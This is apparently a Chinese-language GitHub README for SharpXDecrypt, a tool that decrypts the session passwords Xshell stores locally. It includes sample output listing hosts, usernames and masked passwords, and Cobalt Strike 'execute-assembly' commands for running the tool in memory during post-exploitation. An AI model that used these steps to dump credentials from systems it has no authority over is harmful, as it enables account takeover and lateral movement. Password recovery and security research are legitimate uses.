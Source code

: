 # SharpXDecrypt

## 声明

本程序仅供个人恢复密码使用，如果代码中存在侵权行为，请联系我们删除。



## 简介

Xshell全版本凭证一键恢复工具，针对Xshell全版本在本地保存的密码进行解密，包括最新的7系列版本！



## 使用方法

#### cmd.exe 自动寻找session路径

```
C:\Users\asus\Desktop\DEV\SharpXDecrypt\bin\Debug> .\SharpXDecrypt.exe

Xshell全版本凭证一键导出工具!(支持最新Xshell 7系列版本!)
Author: 0pen1
Github: https://github.com/JDArmy
[!] WARNING: For learning purposes only,please delete it within 24 hours after downloading!

[*] Start GetUserPath....
  UserPath: E:\NetSarang Computer\xshell6
  UserPath: C:\Users\asus\Documents\NetSarang Computer\7
[*] Get UserPath Success !

[*] Start GetUserSID....
  Username: asus
  userSID: S-1-5-21-736521517-423******97-1340300005-1001
[*] GetUserSID Success !

  XSHPath: E:\NetSarang Computer\xshell6\Xshell\Sessions\192.168.1.110.xsh
  Host: 192.168.1.110
  UserName: wwwuser
  Password: www*******Aqx
  Version: 6.0

  XSHPath: C:\Users\asus\Documents\NetSarang Computer\7\Xshell\Sessions\192.168.1.110.xsh
  Host: 192.168.1.110
  UserName: wwwuser
  Password: ww********Aqx
  Version: 7.1

  XSHPath: C:\Users\asus\Documents\NetSarang Computer\7\Xshell\Sessions\Tokyo.xsh
  Host: 198.13.51.134
  UserName: root
  Password: W8*********PN__%
  Version: 7.1
```

#### cmd.exe 指定session路径

```
C:\Users\asus\Desktop\DEV\SharpXDecrypt\bin\Release> .\SharpXDecrypt.exe "C:\Users\asus\Documents\NetSarang Computer\7\Xshell\Sessions"

Xshell全版本凭证一键导出工具!(支持Xshell 7.0+版本)
Author: 0pen1
Github: https://github.com/JDArmy
[!] WARNING: For learning purposes only,please delete it within 24 hours after downloading!

[*] Start GetUserSID....
  Username: asus
  userSID: S-1-5-21-736521517-4232353097-1340300005-1001
[*] GetUserSID Success !

  XSHPath: C:\Users\asus\Documents\NetSarang Computer\7\Xshell\Sessions\192.168.1.110.xsh
  Host: 192.168.1.110
  UserName: wwwuser
  Password: www*******qx
  Version: 7.1

  XSHPath: C:\Users\asus\Documents\NetSarang Computer\7\Xshell\Sessions\新建会话.xsh
  Host: 127.0.0.1
  UserName: root
  Password: 78******6
  Version: 7.1

[*] read done!
```


#### Cobalt Strike

```
execute-assembly /path/to/SharpXDecrypt.exe
execute-assembly /path/to/SharpXDecrypt.exe  "C:\Users\asus\Documents\NetSarang Computer\7\Xshell\Sessions"
```



## 更新日志 

- v0.1.0, 2022-02-22, 创建
- v0.1.1, 2022-02-23, 修复中文用户名解密失败问题
- v0.1.2, 2022-02-23, 修复Xshell5执行报错问题，增加执行session路径功能



## 致谢

暂无



## 参考

https://github.com/HyperSine/how-does-Xmanager-encrypt-password

https://github.com/uknowsec/SharpDecryptPwd

